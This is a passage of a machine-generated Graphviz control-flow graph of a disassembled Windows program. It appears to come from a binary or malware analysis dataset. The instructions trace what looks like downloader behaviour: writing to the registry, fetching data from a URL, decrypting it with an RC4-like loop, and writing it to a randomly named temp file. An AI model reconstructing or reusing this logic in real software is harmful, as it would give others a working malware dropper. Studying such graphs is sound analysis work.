a0x0040154epushl_0x0UINT8 -> a0x00401550pushl_0x404544UINT32 [color="#000000"];
a0x00401550pushl_0x404544UINT32 -> a0x00401555movl__1544ebp__edx [color="#000000"];
a0x00401555movl__1544ebp__edx -> a0x0040155bpushl_edx [color="#000000"];
a0x0040155bpushl_edx -> a0x0040155ccall_RegSetValueExA_advapi32_dll [color="#000000"];
a0x0040155ccall_RegSetValueExA_advapi32_dll -> RegSetValueExA_advapi32_dll [color="#000000"];
RegSetValueExA_advapi32_dll -> a0x00401562movl__1544ebp__eax [color="#000000"];
a0x00401562movl__1544ebp__eax -> a0x00401568pushl_eax [color="#000000"];
a0x00401568pushl_eax -> a0x00401569call_RegCloseKey_advapi32_dll [color="#000000"];
a0x00401569call_RegCloseKey_advapi32_dll -> RegCloseKey_advapi32_dll [color="#000000"];
RegCloseKey_advapi32_dll -> a0x0040156fpushl_0x3fc00UINT32 [color="#000000"];
a0x0040156fpushl_0x3fc00UINT32 -> a0x00401574pushl_0x40UINT8 [color="#000000"];
a0x00401574pushl_0x40UINT8 -> a0x00401576call_GlobalAlloc_kernel32_dll [color="#000000"];
a0x00401576call_GlobalAlloc_kernel32_dll -> GlobalAlloc_kernel32_dll [color="#000000"];
GlobalAlloc_kernel32_dll -> a0x0040157cmovl_eax__4ebp_ [color="#000000"];
a0x0040157cmovl_eax__4ebp_ -> a0x0040157fpushl_0x3fc00UINT32 [color="#000000"];
a0x0040157fpushl_0x3fc00UINT32 -> a0x00401584movl__4ebp__ecx [color="#000000"];
a0x00401584movl__4ebp__ecx -> a0x00401587pushl_ecx [color="#000000"];
a0x00401587pushl_ecx -> a0x00401588movl_0x8ebp__edx [color="#000000"];
a0x00401588movl_0x8ebp__edx -> a0x0040158bpushl_edx [color="#000000"];
a0x0040158bpushl_edx -> a0x0040158ccall_0x00401340 [color="#000000"];
a0x0040158ccall_0x00401340 -> a0x00401340pushl_ebp [color="#000000"];
a0x00401340pushl_ebp -> a0x00401341movl_esp_ebp [color="#000000"];
a0x00401341movl_esp_ebp -> a0x00401343subl_0x414UINT32_esp [color="#000000"];
a0x00401343subl_0x414UINT32_esp -> a0x00401349pushl_edi [color="#000000"];
a0x00401349pushl_edi -> a0x0040134amovb_0x0UINT8__1032ebp_ [color="#000000"];
a0x0040134amovb_0x0UINT8__1032ebp_ -> a0x00401351movl_0x100UINT32_ecx [color="#000000"];
a0x00401351movl_0x100UINT32_ecx -> a0x00401356xorl_eax_eax [color="#000000"];
a0x00401356xorl_eax_eax -> a0x00401358leal__1031ebp__edi [color="#000000"];
a0x00401358leal__1031ebp__edi -> a0x0040135erepz_stosl_eax_es_edi_ [color="#000000"];
a0x0040135erepz_stosl_eax_es_edi_ -> a0x00401360movl_0x400UINT32__1044ebp_ [color="#000000"];
a0x00401360movl_0x400UINT32__1044ebp_ -> a0x0040136amovl_0x0UINT32__4ebp_ [color="#000000"];
a0x0040136amovl_0x0UINT32__4ebp_ -> a0x00401371pushl_0x0UINT8 [color="#000000"];
a0x00401371pushl_0x0UINT8 -> a0x00401373pushl_0x0UINT8 [color="#000000"];
a0x00401373pushl_0x0UINT8 -> a0x00401375pushl_0x0UINT8 [color="#000000"];
a0x00401375pushl_0x0UINT8 -> a0x00401377pushl_0x1UINT8 [color="#000000"];
a0x00401377pushl_0x1UINT8 -> a0x00401379pushl_0x404460UINT32 [color="#000000"];
a0x00401379pushl_0x404460UINT32 -> a0x0040137ecall_InternetOpenA_wininet_dll [color="#000000"];
a0x0040137ecall_InternetOpenA_wininet_dll -> InternetOpenA_wininet_dll [color="#000000"];
InternetOpenA_wininet_dll -> a0x00401384movl_eax__1036ebp_ [color="#000000"];
a0x00401384movl_eax__1036ebp_ -> a0x0040138acmpl_0x0UINT8__1036ebp_ [color="#000000"];
a0x0040138acmpl_0x0UINT8__1036ebp_ -> a0x00401391je_0x00401441 [color="#000000"];
a0x00401391je_0x00401441 -> a0x00401397pushl_0x0UINT8 [color="#000000",label="F"];
a0x00401397pushl_0x0UINT8 -> a0x00401399pushl_0x84000000UINT32 [color="#000000"];
a0x00401399pushl_0x84000000UINT32 -> a0x0040139epushl_0x0UINT8 [color="#000000"];
a0x0040139epushl_0x0UINT8 -> a0x004013a0pushl_0x0UINT8 [color="#000000"];
a0x004013a0pushl_0x0UINT8 -> a0x004013a2movl_0x8ebp__eax [color="#000000"];
a0x004013a2movl_0x8ebp__eax -> a0x004013a5pushl_eax [color="#000000"];
a0x004013a5pushl_eax -> a0x004013a6movl__1036ebp__ecx [color="#000000"];
a0x004013a6movl__1036ebp__ecx -> a0x004013acpushl_ecx [color="#000000"];
a0x004013acpushl_ecx -> a0x004013adcall_InternetOpenUrlA_wininet_dll [color="#000000"];
a0x004013adcall_InternetOpenUrlA_wininet_dll -> InternetOpenUrlA_wininet_dll [color="#000000"];
InternetOpenUrlA_wininet_dll -> a0x004013b3movl_eax__1040ebp_ [color="#000000"];
a0x004013b3movl_eax__1040ebp_ -> a0x004013b9cmpl_0x0UINT8__1040ebp_ [color="#000000"];
a0x004013b9cmpl_0x0UINT8__1040ebp_ -> a0x004013c0je_0x00401441 [color="#000000"];
a0x004013c0je_0x00401441 -> a0x00401441cmpl_0x0UINT8__1040ebp_ [color="#000000",label="T"];
a0x00401441cmpl_0x0UINT8__1040ebp_ -> a0x00401448je_0x00401457 [color="#000000"];
a0x00401448je_0x00401457 -> a0x00401457cmpl_0x0UINT8__1036ebp_ [color="#000000",label="T"];
a0x00401457cmpl_0x0UINT8__1036ebp_ -> a0x0040145eje_0x0040146d [color="#000000"];
a0x0040145eje_0x0040146d -> a0x00401460movl__1036ebp__eax [color="#000000",label="F"];
a0x00401460movl__1036ebp__eax -> a0x00401466pushl_eax [color="#000000"];
a0x00401466pushl_eax -> a0x00401467call_InternetCloseHandle_wininet_dll [color="#000000"];
a0x00401467call_InternetCloseHandle_wininet_dll -> InternetCloseHandle_wininet_dll [color="#000000"];
InternetCloseHandle_wininet_dll -> a0x0040146dmovl__4ebp__eax [color="#000000"];
a0x0040146dmovl__4ebp__eax -> a0x00401470popl_edi [color="#000000"];
a0x00401470popl_edi -> a0x00401471movl_ebp_esp [color="#000000"];
a0x00401471movl_ebp_esp -> a0x00401473popl_ebp [color="#000000"];
a0x00401473popl_ebp -> a0x00401474ret [color="#000000"];
a0x00401474ret -> a0x00401591addl_0xcUINT8_esp [color="#000000"];
a0x00401591addl_0xcUINT8_esp -> a0x00401594movl_eax__1548ebp_ [color="#000000"];
a0x00401594movl_eax__1548ebp_ -> a0x0040159amovl_0xcebp__eax [color="#000000"];
a0x0040159amovl_0xcebp__eax -> a0x0040159dandl_0xffUINT32_eax [color="#000000"];
a0x0040159dandl_0xffUINT32_eax -> a0x004015a2testl_eax_eax [color="#000000"];
a0x004015a2testl_eax_eax -> a0x004015a4je_0x00401821 [color="#000000"];
a0x004015a4je_0x00401821 -> a0x004015aacmpl_0x0UINT8__1548ebp_ [color="#000000",label="F"];
a0x004015aacmpl_0x0UINT8__1548ebp_ -> a0x004015b1jbe_0x00401821 [color="#000000"];
a0x004015b1jbe_0x00401821 -> a0x00401821movl__4ebp__edx [color="#000000",label="T"];
a0x00401821movl__4ebp__edx -> a0x00401824pushl_edx [color="#000000"];
a0x00401824pushl_edx -> a0x00401825call_GlobalFree_kernel32_dll [color="#000000"];
a0x00401825call_GlobalFree_kernel32_dll -> GlobalFree_kernel32_dll [color="#000000"];
GlobalFree_kernel32_dll -> a0x0040182bcmpl_0x0UINT8_0x10ebp_ [color="#000000"];
a0x0040182bcmpl_0x0UINT8_0x10ebp_ -> a0x0040182fje_0x0040185f [color="#000000"];
a0x0040182fje_0x0040185f -> a0x0040185fxorl_eax_eax [color="#000000",label="T"];
a0x0040185fxorl_eax_eax -> a0x00401861movl_ebp_esp [color="#000000"];
a0x00401861movl_ebp_esp -> a0x00401863popl_ebp [color="#000000"];
a0x00401863popl_ebp -> a0x00401864ret [color="#000000"];
a0x00401864ret -> a0x0040189daddl_0xcUINT8_esp [color="#000000"];
a0x0040189daddl_0xcUINT8_esp -> a0x004018a0pushl_0x0UINT8 [color="#000000"];
a0x004018a0pushl_0x0UINT8 -> a0x004018a2pushl_0x1UINT8 [color="#000000"];
a0x004018a2pushl_0x1UINT8 -> a0x004018a4pushl_0x4045c0UINT32 [color="#000000"];
a0x004018a4pushl_0x4045c0UINT32 -> a0x004018a9call_0x00401475 [color="#000000"];
a0x004018a9call_0x00401475 -> a0x00401475pushl_ebp [color="#000000"];
a0x004013c0je_0x00401441 -> a0x004013c2cmpl_0x0UINT8_0xcebp_ [color="#000000",label="F"];
a0x004013c2cmpl_0x0UINT8_0xcebp_ -> a0x004013c6jne_0x004013cf [color="#000000"];
a0x004013c6jne_0x004013cf -> a0x004013cfcmpl_0x0UINT8_0xcebp_ [color="#000000",label="T"];
a0x004013cfcmpl_0x0UINT8_0xcebp_ -> a0x004013d3je_0x00401441 [color="#000000"];
a0x004013d3je_0x00401441 -> a0x004013d5leal__1044ebp__edx [color="#000000",label="F"];
a0x004013d5leal__1044ebp__edx -> a0x004013dbpushl_edx [color="#000000"];
a0x004013dbpushl_edx -> a0x004013dcpushl_0x400UINT32 [color="#000000"];
a0x004013dcpushl_0x400UINT32 -> a0x004013e1leal__1032ebp__eax [color="#000000"];
a0x004013e1leal__1032ebp__eax -> a0x004013e7pushl_eax [color="#000000"];
a0x004013e7pushl_eax -> a0x004013e8movl__1040ebp__ecx [color="#000000"];
a0x004013e8movl__1040ebp__ecx -> a0x004013eepushl_ecx [color="#000000"];
a0x004013eepushl_ecx -> a0x004013efcall_InternetReadFile_wininet_dll [color="#000000"];
a0x004013efcall_InternetReadFile_wininet_dll -> InternetReadFile_wininet_dll [color="#000000"];
InternetReadFile_wininet_dll -> a0x004013f5testl_eax_eax [color="#000000"];
a0x004013f5testl_eax_eax -> a0x004013f7je_0x00401438 [color="#000000"];
a0x004013f7je_0x00401438 -> a0x004013f9movl__4ebp__edx [color="#000000",label="F"];
a0x004013f9movl__4ebp__edx -> a0x004013fccmpl_0x10ebp__edx [color="#000000"];
a0x004013fccmpl_0x10ebp__edx -> a0x004013ffjae_0x0040140f [color="#000000"];
a0x004013ffjae_0x0040140f -> a0x00401401movl__4ebp__eax [color="#000000",label="F"];
a0x00401401movl__4ebp__eax -> a0x00401404addl__1044ebp__eax [color="#000000"];
a0x00401404addl__1044ebp__eax -> a0x0040140acmpl_0x10ebp__eax [color="#000000"];
a0x0040140acmpl_0x10ebp__eax -> a0x0040140djbe_0x00401411 [color="#000000"];
a0x0040140djbe_0x00401411 -> a0x00401411movl__1044ebp__ecx [color="#000000",label="T"];
a0x00401411movl__1044ebp__ecx -> a0x00401417pushl_ecx [color="#000000"];
a0x00401417pushl_ecx -> a0x00401418leal__1032ebp__edx [color="#000000"];
a0x00401418leal__1032ebp__edx -> a0x0040141epushl_edx [color="#000000"];
a0x0040141epushl_edx -> a0x0040141fmovl_0xcebp__eax [color="#000000"];
a0x0040141fmovl_0xcebp__eax -> a0x00401422addl__4ebp__eax [color="#000000"];
a0x00401422addl__4ebp__eax -> a0x00401425pushl_eax [color="#000000"];
a0x00401425pushl_eax -> a0x00401426call_0x004049a4 [color="#000000"];
a0x00401426call_0x004049a4 -> RtlMoveMemory_KERNEL32 [color="#000000"];
RtlMoveMemory_KERNEL32 -> a0x0040142cmovl__4ebp__ecx [color="#000000"];
a0x0040142cmovl__4ebp__ecx -> a0x0040142faddl__1044ebp__ecx [color="#000000"];
a0x0040142faddl__1044ebp__ecx -> a0x00401435movl_ecx__4ebp_ [color="#000000"];
a0x00401435movl_ecx__4ebp_ -> a0x00401438cmpl_0x0UINT8__1044ebp_ [color="#000000"];
a0x00401438cmpl_0x0UINT8__1044ebp_ -> a0x0040143fjne_0x004013d5 [color="#000000"];
a0x0040143fjne_0x004013d5 -> a0x004013d5leal__1044ebp__edx [color="#000000",label="T"];
a0x0040143fjne_0x004013d5 -> a0x00401441cmpl_0x0UINT8__1040ebp_ [color="#000000",label="F"];
a0x00401448je_0x00401457 -> a0x0040144amovl__1040ebp__edx [color="#000000",label="F"];
a0x0040144amovl__1040ebp__edx -> a0x00401450pushl_edx [color="#000000"];
a0x00401450pushl_edx -> a0x00401451call_InternetCloseHandle_wininet_dll [color="#000000"];
a0x00401451call_InternetCloseHandle_wininet_dll -> InternetCloseHandle_wininet_dll [color="#000000"];
InternetCloseHandle_wininet_dll -> a0x00401457cmpl_0x0UINT8__1036ebp_ [color="#000000"];
a0x004015b1jbe_0x00401821 -> a0x004015b7leal__2172ebp__ecx [color="#000000",label="F"];
a0x004015b7leal__2172ebp__ecx -> a0x004015bdpushl_ecx [color="#000000"];
a0x004015bdpushl_ecx -> a0x004015becall_0x00401277 [color="#000000"];
a0x004015becall_0x00401277 -> a0x00401277pushl_ebp [color="#000000"];
a0x00401277pushl_ebp -> a0x00401278movl_esp_ebp [color="#000000"];
a0x00401278movl_esp_ebp -> a0x0040127asubl_0x104UINT32_esp [color="#000000"];
a0x0040127asubl_0x104UINT32_esp -> a0x00401280movl_0x8ebp__eax [color="#000000"];
a0x00401280movl_0x8ebp__eax -> a0x00401283pushl_eax [color="#000000"];
a0x00401283pushl_eax -> a0x00401284pushl_0x80UINT32 [color="#000000"];
a0x00401284pushl_0x80UINT32 -> a0x00401289call_GetTempPathA_kernel32_dll [color="#000000"];
a0x00401289call_GetTempPathA_kernel32_dll -> GetTempPathA_kernel32_dll [color="#000000"];
GetTempPathA_kernel32_dll -> a0x0040128fmovl_0x8ebp__ecx [color="#000000"];
a0x0040128fmovl_0x8ebp__ecx -> a0x00401292pushl_ecx [color="#000000"];
a0x00401292pushl_ecx -> a0x00401293call_lstrlenA_kernel32_dll [color="#000000"];
a0x00401293call_lstrlenA_kernel32_dll -> lstrlenA_kernel32_dll [color="#000000"];
lstrlenA_kernel32_dll -> a0x00401299movl_0x8ebp__edx [color="#000000"];
a0x00401299movl_0x8ebp__edx -> a0x0040129cmovsbl__1edxeax__eax [color="#000000"];
a0x0040129cmovsbl__1edxeax__eax -> a0x004012a1cmpl_0x5cUINT8_eax [color="#000000"];
a0x004012a1cmpl_0x5cUINT8_eax -> a0x004012a4je_0x004012b5 [color="#000000"];
a0x004012a4je_0x004012b5 -> a0x004012b5leal__260ebp__edx [color="#000000",label="T"];
a0x004012b5leal__260ebp__edx -> a0x004012bbpushl_edx [color="#000000"];
a0x004012bbpushl_edx -> a0x004012bccall_0x004011ff [color="#000000"];
a0x004012bccall_0x004011ff -> a0x004011ffpushl_ebp [color="#000000"];
a0x004011ffpushl_ebp -> a0x00401200movl_esp_ebp [color="#000000"];
a0x00401200movl_esp_ebp -> a0x00401202subl_0x20UINT8_esp [color="#000000"];
a0x00401202subl_0x20UINT8_esp -> a0x00401205call_0x004011c5 [color="#000000"];
a0x00401205call_0x004011c5 -> a0x004011c5pushl_ebp [color="#000000"];
a0x004011c5pushl_ebp -> a0x004011c6movl_esp_ebp [color="#000000"];
a0x004011c6movl_esp_ebp -> a0x004011c8call_GetTickCount_kernel32_dll [color="#000000"];
a0x004011c8call_GetTickCount_kernel32_dll -> GetTickCount_kernel32_dll [color="#000000"];
GetTickCount_kernel32_dll -> a0x004011cemovl_eax_0x00404aac [color="#000000"];
a0x004011cemovl_eax_0x00404aac -> a0x004011d3popl_ebp [color="#000000"];
a0x004011d3popl_ebp -> a0x004011d4ret [color="#000000"];
a0x004011d4ret -> a0x0040120acall_0x004011d5 [color="#000000"];
a0x0040120acall_0x004011d5 -> a0x004011d5pushl_ebp [color="#000000"];
a0x004011d5pushl_ebp -> a0x004011d6movl_esp_ebp [color="#000000"];
a0x004011d6movl_esp_ebp -> a0x004011d8movl_0x00404aac_eax [color="#000000"];
a0x004011d8movl_0x00404aac_eax -> a0x004011ddimull_0x15a4e35UINT32_eax_eax [color="#000000"];
a0x004011ddimull_0x15a4e35UINT32_eax_eax -> a0x004011e3addl_0x1UINT8_eax [color="#000000"];
a0x004011e3addl_0x1UINT8_eax -> a0x004011e6movl_eax_0x00404aac [color="#000000"];
a0x004011e6movl_eax_0x00404aac -> a0x004011ebmovl_0x00404aac_eax [color="#000000"];
a0x004011ebmovl_0x00404aac_eax -> a0x004011f0shrl_0x10UINT8_eax [color="#000000"];
a0x004011f0shrl_0x10UINT8_eax -> a0x004011f3andl_0xffffUINT32_eax [color="#000000"];
a0x004011f3andl_0xffffUINT32_eax -> a0x004011f8andl_0xffffUINT32_eax [color="#000000"];
a0x004011f8andl_0xffffUINT32_eax -> a0x004011fdpopl_ebp [color="#000000"];
a0x004011fdpopl_ebp -> a0x004011feret [color="#000000"];
a0x004011feret -> a0x0040120fandl_0xffffUINT32_eax [color="#000000"];
a0x0040120fandl_0xffffUINT32_eax -> a0x00401214cltd_ [color="#000000"];
a0x00401214cltd_ -> a0x00401215movl_0x3UINT32_ecx [color="#000000"];
a0x00401215movl_0x3UINT32_ecx -> a0x0040121aidivl_ecx_eax [color="#000000"];
a0x0040121aidivl_ecx_eax -> a0x0040121caddl_0x4UINT8_edx [color="#000000"];
a0x0040121caddl_0x4UINT8_edx -> a0x0040121fmovl_edx__28ebp_ [color="#000000"];
a0x0040121fmovl_edx__28ebp_ -> a0x00401222movl_0x0UINT32__32ebp_ [color="#000000"];
a0x00401222movl_0x0UINT32__32ebp_ -> a0x00401229jmp_0x00401234 [color="#000000"];
a0x00401229jmp_0x00401234 -> a0x00401234movl__32ebp__eax [color="#000000"];
a0x00401234movl__32ebp__eax -> a0x00401237cmpl__28ebp__eax [color="#000000"];
a0x00401237cmpl__28ebp__eax -> a0x0040123ajae_0x0040125a [color="#000000"];
a0x0040123ajae_0x0040125a -> a0x0040123ccall_0x004011d5 [color="#000000",label="F"];
a0x0040123ccall_0x004011d5 -> a0x004011d5pushl_ebp [color="#000000"];
a0x004011feret -> a0x00401241andl_0xffffUINT32_eax [color="#000000"];
a0x00401241andl_0xffffUINT32_eax -> a0x00401246cltd_ [color="#000000"];
a0x00401246cltd_ -> a0x00401247movl_0x19UINT32_ecx [color="#000000"];
a0x00401247movl_0x19UINT32_ecx -> a0x0040124cidivl_ecx_eax [color="#000000"];
a0x0040124cidivl_ecx_eax -> a0x0040124eaddl_0x61UINT8_edx [color="#000000"];
a0x0040124eaddl_0x61UINT8_edx -> a0x00401251movl__32ebp__eax [color="#000000"];
a0x00401251movl__32ebp__eax -> a0x00401254movb_dl__24ebpeax_ [color="#000000"];
a0x00401254movb_dl__24ebpeax_ -> a0x00401258jmp_0x0040122b [color="#000000"];
a0x00401258jmp_0x0040122b -> a0x0040122bmovl__32ebp__edx [color="#000000"];
a0x0040122bmovl__32ebp__edx -> a0x0040122eaddl_0x1UINT8_edx [color="#000000"];
a0x0040122eaddl_0x1UINT8_edx -> a0x00401231movl_edx__32ebp_ [color="#000000"];
a0x00401231movl_edx__32ebp_ -> a0x00401234movl__32ebp__eax [color="#000000"];
a0x0040123ajae_0x0040125a -> a0x0040125amovl__32ebp__ecx [color="#000000",label="T"];
a0x0040125amovl__32ebp__ecx -> a0x0040125dmovb_0x0UINT8__24ebpecx_ [color="#000000"];
a0x0040125dmovb_0x0UINT8__24ebpecx_ -> a0x00401262leal__24ebp__edx [color="#000000"];
a0x00401262leal__24ebp__edx -> a0x00401265pushl_edx [color="#000000"];
a0x00401265pushl_edx -> a0x00401266movl_0x8ebp__eax [color="#000000"];
a0x00401266movl_0x8ebp__eax -> a0x00401269pushl_eax [color="#000000"];
a0x00401269pushl_eax -> a0x0040126acall_lstrcpyA_kernel32_dll [color="#000000"];
a0x0040126acall_lstrcpyA_kernel32_dll -> lstrcpyA_kernel32_dll [color="#000000"];
lstrcpyA_kernel32_dll -> a0x00401270movl_0x8ebp__eax [color="#000000"];
a0x00401270movl_0x8ebp__eax -> a0x00401273movl_ebp_esp [color="#000000"];
a0x00401273movl_ebp_esp -> a0x00401275popl_ebp [color="#000000"];
a0x00401275popl_ebp -> a0x00401276ret [color="#000000"];
a0x00401276ret -> a0x004012c1addl_0x4UINT8_esp [color="#000000"];
a0x004012c1addl_0x4UINT8_esp -> a0x004012c4pushl_eax [color="#000000"];
a0x004012c4pushl_eax -> a0x004012c5leal__260ebp__eax [color="#000000"];
a0x004012c5leal__260ebp__eax -> a0x004012cbpushl_eax [color="#000000"];
a0x004012cbpushl_eax -> a0x004012cccall_lstrcpyA_kernel32_dll [color="#000000"];
a0x004012cccall_lstrcpyA_kernel32_dll -> lstrcpyA_kernel32_dll [color="#000000"];
lstrcpyA_kernel32_dll -> a0x004012d2leal__260ebp__ecx [color="#000000"];
a0x004012d2leal__260ebp__ecx -> a0x004012d8pushl_ecx [color="#000000"];
a0x004012d8pushl_ecx -> a0x004012d9pushl_0x404454UINT32 [color="#000000"];
a0x004012d9pushl_0x404454UINT32 -> a0x004012demovl_0x8ebp__edx [color="#000000"];
a0x004012demovl_0x8ebp__edx -> a0x004012e1pushl_edx [color="#000000"];
a0x004012e1pushl_edx -> a0x004012e2call_lstrlenA_kernel32_dll [color="#000000"];
a0x004012e2call_lstrlenA_kernel32_dll -> lstrlenA_kernel32_dll [color="#000000"];
lstrlenA_kernel32_dll -> a0x004012e8movl_0x8ebp__ecx [color="#000000"];
a0x004012e8movl_0x8ebp__ecx -> a0x004012ebaddl_eax_ecx [color="#000000"];
a0x004012ebaddl_eax_ecx -> a0x004012edpushl_ecx [color="#000000"];
a0x004012edpushl_ecx -> a0x004012eecall_wsprintfA_user32_dll [color="#000000"];
a0x004012eecall_wsprintfA_user32_dll -> wsprintfA_user32_dll [color="#000000"];
wsprintfA_user32_dll -> a0x004012f4addl_0xcUINT8_esp [color="#000000"];
a0x004012f4addl_0xcUINT8_esp -> a0x004012f7movl_ebp_esp [color="#000000"];
a0x004012f7movl_ebp_esp -> a0x004012f9popl_ebp [color="#000000"];
a0x004012f9popl_ebp -> a0x004012faret [color="#000000"];
a0x004012faret -> a0x004015c3addl_0x4UINT8_esp [color="#000000"];
a0x004015c3addl_0x4UINT8_esp -> a0x004015c6pushl_0x0UINT8 [color="#000000"];
a0x004015c6pushl_0x0UINT8 -> a0x004015c8pushl_0x80UINT32 [color="#000000"];
a0x004015c8pushl_0x80UINT32 -> a0x004015cdpushl_0x2UINT8 [color="#000000"];
a0x004015cdpushl_0x2UINT8 -> a0x004015cfpushl_0x0UINT8 [color="#000000"];
a0x004015cfpushl_0x0UINT8 -> a0x004015d1pushl_0x2UINT8 [color="#000000"];
a0x004015d1pushl_0x2UINT8 -> a0x004015d3pushl_0x40000000UINT32 [color="#000000"];
a0x004015d3pushl_0x40000000UINT32 -> a0x004015d8leal__2172ebp__edx [color="#000000"];
a0x004015d8leal__2172ebp__edx -> a0x004015depushl_edx [color="#000000"];
a0x004015depushl_edx -> a0x004015dfcall_CreateFileA_kernel32_dll [color="#000000"];
a0x004015dfcall_CreateFileA_kernel32_dll -> CreateFileA_kernel32_dll [color="#000000"];
CreateFileA_kernel32_dll -> a0x004015e5movl_eax__2176ebp_ [color="#000000"];
a0x004015e5movl_eax__2176ebp_ -> a0x004015ebcmpl_0xffffffffUINT8__2176ebp_ [color="#000000"];
a0x004015ebcmpl_0xffffffffUINT8__2176ebp_ -> a0x004015f2je_0x00401821 [color="#000000"];
a0x004015f2je_0x00401821 -> a0x004015f8movl_0x0UINT32__1556ebp_ [color="#000000",label="F"];
a0x004015f8movl_0x0UINT32__1556ebp_ -> a0x00401602jmp_0x00401615 [color="#000000"];
a0x00401602jmp_0x00401615 -> a0x00401615movl__1556ebp__ecx [color="#000000"];
a0x00401615movl__1556ebp__ecx -> a0x0040161bcmpl__1548ebp__ecx [color="#000000"];
a0x0040161bcmpl__1548ebp__ecx -> a0x00401621jae_0x0040170f [color="#000000"];
a0x00401621jae_0x0040170f -> a0x00401627pushl_0x200UINT32 [color="#000000",label="F"];
a0x00401627pushl_0x200UINT32 -> a0x0040162cmovl__4ebp__edx [color="#000000"];
a0x0040162cmovl__4ebp__edx -> a0x0040162faddl__1556ebp__edx [color="#000000"];
a0x0040162faddl__1556ebp__edx -> a0x00401635pushl_edx [color="#000000"];
a0x00401635pushl_edx -> a0x00401636leal__1028ebp__eax [color="#000000"];
a0x00401636leal__1028ebp__eax -> a0x0040163cpushl_eax [color="#000000"];
a0x0040163cpushl_eax -> a0x0040163dcall_0x004049a4 [color="#000000"];
a0x0040163dcall_0x004049a4 -> RtlMoveMemory_KERNEL32 [color="#000000"];
RtlMoveMemory_KERNEL32 -> a0x00401643movl_0x0UINT32__1552ebp_ [color="#000000"];
a0x00401643movl_0x0UINT32__1552ebp_ -> a0x0040164djmp_0x0040165e [color="#000000"];
a0x0040164djmp_0x0040165e -> a0x0040165ecmpl_0x5UINT8__1552ebp_ [color="#000000"];
a0x0040165ecmpl_0x5UINT8__1552ebp_ -> a0x00401665jae_0x004016c7 [color="#000000"];
a0x00401665jae_0x004016c7 -> a0x00401667leal__2436ebp__edx [color="#000000",label="F"];
a0x00401667leal__2436ebp__edx -> a0x0040166dpushl_edx [color="#000000"];
a0x0040166dpushl_edx -> a0x0040166emovl__1552ebp__eax [color="#000000"];
a0x0040166emovl__1552ebp__eax -> a0x00401674imull_0x410UINT32_eax_eax [color="#000000"];
a0x00401674imull_0x410UINT32_eax_eax -> a0x0040167amovl_0x403000eax__ecx [color="#000000"];
a0x0040167amovl_0x403000eax__ecx -> a0x00401680pushl_ecx [color="#000000"];
a0x00401680pushl_ecx -> a0x00401681movl__1552ebp__edx [color="#000000"];
a0x00401681movl__1552ebp__edx -> a0x00401687imull_0x410UINT32_edx_edx [color="#000000"];
a0x00401687imull_0x410UINT32_edx_edx -> a0x0040168daddl_0x403004UINT32_edx [color="#000000"];
a0x0040168daddl_0x403004UINT32_edx -> a0x00401693pushl_edx [color="#000000"];
a0x00401693pushl_edx -> a0x00401694call_0x00401000 [color="#000000"];
a0x00401694call_0x00401000 -> a0x00401000pushl_ebp [color="#000000"];
a0x00401000pushl_ebp -> a0x00401001movl_esp_ebp [color="#000000"];
a0x00401001movl_esp_ebp -> a0x00401003subl_0x14UINT8_esp [color="#000000"];
a0x00401003subl_0x14UINT8_esp -> a0x00401006movl_0x10ebp__eax [color="#000000"];
a0x00401006movl_0x10ebp__eax -> a0x00401009movl_eax__8ebp_ [color="#000000"];
a0x00401009movl_eax__8ebp_ -> a0x0040100cmovl_0x0UINT32__12ebp_ [color="#000000"];
a0x0040100cmovl_0x0UINT32__12ebp_ -> a0x00401013jmp_0x0040101e [color="#000000"];
a0x00401013jmp_0x0040101e -> a0x0040101ecmpl_0x100UINT32__12ebp_ [color="#000000"];
a0x0040101ecmpl_0x100UINT32__12ebp_ -> a0x00401025jnl_0x00401034 [color="#000000"];
a0x00401025jnl_0x00401034 -> a0x00401027movl__8ebp__edx [color="#000000",label="F"];
a0x00401027movl__8ebp__edx -> a0x0040102aaddl__12ebp__edx [color="#000000"];
a0x0040102aaddl__12ebp__edx -> a0x0040102dmovb__12ebp__al [color="#000000"];
a0x0040102dmovb__12ebp__al -> a0x00401030movb_al_edx_ [color="#000000"];
a0x00401030movb_al_edx_ -> a0x00401032jmp_0x00401015 [color="#000000"];
a0x00401032jmp_0x00401015 -> a0x00401015movl__12ebp__ecx [color="#000000"];
a0x00401015movl__12ebp__ecx -> a0x00401018addl_0x1UINT8_ecx [color="#000000"];
a0x00401018addl_0x1UINT8_ecx -> a0x0040101bmovl_ecx__12ebp_ [color="#000000"];
a0x0040101bmovl_ecx__12ebp_ -> a0x0040101ecmpl_0x100UINT32__12ebp_ [color="#000000"];
a0x00401025jnl_0x00401034 -> a0x00401034movb_0x0UINT8__20ebp_ [color="#000000",label="T"];
a0x00401034movb_0x0UINT8__20ebp_ -> a0x00401038movl_0x10ebp__ecx [color="#000000"];
a0x00401038movl_0x10ebp__ecx -> a0x0040103bmovb__20ebp__dl [color="#000000"];
a0x0040103bmovb__20ebp__dl -> a0x0040103emovb_dl_0x101ecx_ [color="#000000"];
a0x0040103emovb_dl_0x101ecx_ -> a0x00401044movl_0x10ebp__eax [color="#000000"];
a0x00401044movl_0x10ebp__eax -> a0x00401047movb__20ebp__cl [color="#000000"];
a0x00401047movb__20ebp__cl -> a0x0040104amovb_cl_0x100eax_ [color="#000000"];
a0x0040104amovb_cl_0x100eax_ -> a0x00401050movl_0x0UINT32__16ebp_ [color="#000000"];
a0x00401050movl_0x0UINT32__16ebp_ -> a0x00401057movl__16ebp__edx [color="#000000"];
a0x00401057movl__16ebp__edx -> a0x0040105amovl_edx__12ebp_ [color="#000000"];
a0x0040105amovl_edx__12ebp_ -> a0x0040105djmp_0x00401072 [color="#000000"];
a0x0040105djmp_0x00401072 -> a0x00401072cmpl_0x100UINT32__12ebp_ [color="#000000"];
a0x00401072cmpl_0x100UINT32__12ebp_ -> a0x00401079jnl_0x004010d5 [color="#000000"];
a0x00401079jnl_0x004010d5 -> a0x0040107bmovl__8ebp__ecx [color="#000000",label="F"];
a0x0040107bmovl__8ebp__ecx -> a0x0040107eaddl__12ebp__ecx [color="#000000"];
a0x0040107eaddl__12ebp__ecx -> a0x00401081movb_ecx__dl [color="#000000"];
a0x00401081movb_ecx__dl -> a0x00401083movb_dl__4ebp_ [color="#000000"];
a0x00401083movb_dl__4ebp_ -> a0x00401086movl__4ebp__eax [color="#000000"];
a0x00401086movl__4ebp__eax -> a0x00401089andl_0xffUINT32_eax [color="#000000"];
a0x00401089andl_0xffUINT32_eax -> a0x0040108emovl_0x8ebp__ecx [color="#000000"];
a0x0040108emovl_0x8ebp__ecx -> a0x00401091addl__16ebp__ecx [color="#000000"];
a0x00401091addl__16ebp__ecx -> a0x00401094xorl_edx_edx [color="#000000"];
a0x00401094xorl_edx_edx -> a0x00401096movb_ecx__dl [color="#000000"];
